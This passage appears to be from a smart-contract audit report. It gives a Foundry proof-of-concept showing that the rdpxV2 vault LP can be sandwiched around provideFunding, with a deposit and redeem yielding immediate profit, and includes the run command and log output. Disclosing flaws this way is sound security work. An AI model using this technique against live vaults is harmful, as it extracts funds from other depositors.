 This will open sandwich and MEV attack opportunity inside vault LP.

Foundry PoC :

Add this test to `Unit` contract inside `/tests/rdpxV2-core/Unit.t.sol`, also add `import "forge-std/console.sol";` in the contract :

```solidity
    function testSandwichProvideFunding() public {
        rdpxV2Core.bond(20 * 1e18, 0, address(this));
        rdpxV2Core.bond(20 * 1e18, 0, address(this));
        skip(86400 * 7);
        vault.addToContractWhitelist(address(rdpxV2Core));
        vault.updateFundingPaymentPointer();

        // test funding succesfully
        uint256[] memory strikes = new uint256[](1);
        strikes[0] = 15e6;
        // calculate funding is done properly
        vault.calculateFunding(strikes);

        uint256 funding = vault.totalFundingForEpoch(
            vault.latestFundingPaymentPointer()
        );

        // send funding to rdpxV2Core and call sync
        weth.transfer(address(rdpxV2Core), funding);
        rdpxV2Core.sync();
        rdpxV2Core.provideFunding();
        skip(86400 * 6);
        uint256 balanceBefore = weth.balanceOf(address(this));
        console.log("balance of eth before deposit and redeem:");
        console.log(balanceBefore);
        weth.approve(address(vaultLp), type(uint256).max);
        uint256 shares = vaultLp.deposit(1e18, address(this));
        vaultLp.redeem(shares, address(this), address(this));
        uint256 balanceAfter = weth.balanceOf(address(this));
        console.log("balance after deposit and redeem:");
        console.log(balanceAfter);
        console.log("immediate profit :");
        console.log(balanceAfter - balanceBefore);
    }
```

Run the test :

    forge test --match-contract Unit --match-test testSandwichProvideFunding -vvv

Log Output :

    Logs:
      balance of eth before deposit and redeem:
      18665279470073000000000

      balance after deposit and redeem:
      18665299797412715619861
